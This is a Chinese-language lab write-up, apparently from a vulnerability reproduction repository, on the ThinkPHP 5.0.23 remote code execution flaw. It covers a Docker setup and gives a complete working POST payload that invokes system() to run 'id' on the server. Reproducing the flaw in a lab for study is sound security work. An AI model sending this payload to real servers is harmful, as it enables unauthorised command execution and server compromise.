 # ThinkPHP5 5.0.23 远程代码执行漏洞

## 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

参考链接：

- https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003

## 环境搭建

执行如下命令启动一个默认的thinkphp 5.0.23环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可看到默认的ThinkPHP启动页面。

## 漏洞复现

发送数据包：

```
POST /index.php?s=captcha HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

成功执行`id`命令：

![image-20220302151553822](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021515902.png)

